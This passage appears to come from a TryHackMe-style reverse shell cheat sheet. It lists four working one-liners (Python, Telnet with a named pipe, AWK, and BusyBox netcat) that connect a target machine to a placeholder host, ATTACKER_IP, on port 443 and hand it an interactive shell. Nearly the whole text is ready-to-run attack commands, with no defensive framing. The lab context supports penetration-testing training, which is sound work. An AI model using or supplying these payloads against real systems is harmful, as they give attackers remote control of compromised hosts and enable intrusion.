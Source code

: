 **Short Python Reverse Shell**
```shell-session
target@tryhackme:~$ python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```

#### Others

**Telnet**
```shell-session
target@tryhackme:~$ TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP443 0<$TF | sh 1>$TF
```

**AWK**
```shell-session
target@tryhackme:~$ awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

**BusyBox**
```shell-session
target@tryhackme:~$ busybox nc ATTACKER_IP 443 -e sh
```
